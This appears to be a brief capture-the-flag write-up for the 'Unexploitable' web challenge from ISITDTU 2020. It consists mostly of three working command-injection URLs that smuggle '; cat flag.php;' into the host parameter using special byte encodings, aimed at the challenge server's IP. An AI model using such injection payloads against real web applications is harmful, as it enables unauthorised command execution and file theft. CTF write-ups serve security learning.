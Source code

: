 # Solution for Unexploitable (ISITDTU 2020)

![image](./chall.png)

Just use special character to escapse quote
---

http://13.68.153.110/unexploitable/?host=8.8.8.8%82;%20cat%20flag.php;%20%82
---

http://13.68.153.110/unexploitable/?host=8.8.8.8%91;%20cat%20flag.php;%20%91
---

http://13.68.153.110/unexploitable/?host=8.8.8.8%92;%20cat%20flag.php;%20%92
---

...

![image](./show.png)